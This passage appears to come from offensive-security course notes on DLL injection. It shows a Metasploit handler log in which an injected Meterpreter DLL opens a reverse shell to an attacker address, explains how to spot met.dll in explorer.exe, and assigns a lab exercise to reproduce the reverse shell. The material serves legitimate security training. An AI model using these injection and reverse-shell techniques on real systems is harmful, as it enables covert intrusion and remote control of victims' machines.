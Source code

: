 ```
    }
}
```

> Listing 24 - Creating a remote thread with argument

When we compile and execute the completed code, it fetches the Meterpreter DLL from the web server and returns a reverse shell:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 25 - Getting a reverse shell

We can display all the loaded DLLs in the processes with Process Explorer. We'll select the **explorer.exe** process, navigate to _View_ > _Lower Pane View_ and select _DLLs_. Scrolling down, we find **met.dll** as expected (Figure 4).

![[OffSec/OSEP/Course/z. images/a3d445c6217e12de6ade289af690c621_MD5.jpg]]

Figure 4: Meterpreter DLL loaded in explorer.exe

By reusing the techniques from process injection, we are able to load an unmanaged DLL into a remote process. Unfortunately, this technique does write the DLL to disk. In the next section, we'll tackle this issue.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #3

#### Labs

1. Implement the C# code to perform DLL injection and obtain a reverse Meterpreter shell as shown in this section. With the Meterpreter shell running, can you delete the downloaded DLL from the compromised VM?

Answer

## 8.3. Reflective DLL Injection

This Learning Unit covers the following Learning Objective:

1. Reflective DLL Injection in PowerShell
